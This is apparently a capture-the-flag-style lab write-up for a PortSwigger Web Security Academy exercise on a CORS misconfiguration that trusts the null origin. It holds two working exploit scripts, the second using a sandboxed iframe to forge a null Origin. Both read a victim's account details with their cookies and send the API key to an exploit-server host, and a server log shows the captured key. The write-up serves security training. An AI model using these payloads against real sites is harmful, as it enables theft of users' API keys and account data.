


# [CORS vulnerability with trusted null origin](https://portswigger.net/web-security/cors/lab-null-origin-whitelisted-attack)

## Steps

- Went to the login page, and logged in with provided credentials from the lab description (wiener:peter).
- Response body from request to `/accountDetails` made after logging in contains the targeted API key.



- Response also contains `Access-Control-Allow-Credentials: true` header which means it would be maybe possible to read response from this endpoint when requested from another domain as well.
- Tried delivering simple script to the victim. Script would make a request to the `/accountDetails`, including the cookies, read the response and make a call to exploit server to report back the API key of victim.

```html
<script>
  fetch(
    "https://0a0c00ae031cb08a80c512cc001400a5.web-security-academy.net/accountDetails",
    {
      credentials: "include",
    },
  )
    .then((res) => {
      console.log(res);
      return res.json();
    })
    .then((data) => {
      fetch(
        "https://exploit-0a8b0099030cb0d7800e11ef014100e5.exploit-server.net/log?apikey=" +
          data.apikey,
      );
    });
</script>
```

- By testing exploit myself it's observed that domain of exploit server as origin gets blocked:



- To try and mitigate that, second script was placed inside a sandboxed iframe. This way it causes the browser to set null as value of `Origin` header.

```html
<!DOCTYPE html>
<html>
  <body>
    <iframe
      sandbox="allow-scripts"
      srcdoc="
  <script>
    fetch('https://0a0c00ae031cb08a80c512cc001400a5.web-security-academy.net/accountDetails', {
      credentials: 'include'
    })
      .then(res => {
        console.log(res);
        return res.json();
      })
      .then(data => {
        fetch('https://exploit-0a8b0099030cb0d7800e11ef014100e5.exploit-server.net/log?apikey=' + data.apikey);
      });
  </script>
"
    ></iframe>
  </body>
</html>
```

- Server log showed the victim's API key:

```
77.105.18.45    2026-05-17 21:39:54 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36"
10.0.3.176      2026-05-17 21:39:54 +0000 "GET /exploit/ HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
10.0.3.176      2026-05-17 21:39:55 +0000 "GET /log?apikey=761zHM40bEL1Z8bG5URCZ1uQsGDFzGAI HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.0.0 Safari/537.36"
77.105.18.45    2026-05-17 21:39:55 +0000 "GET / HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/146.0.0.0 Safari/537.36"
```
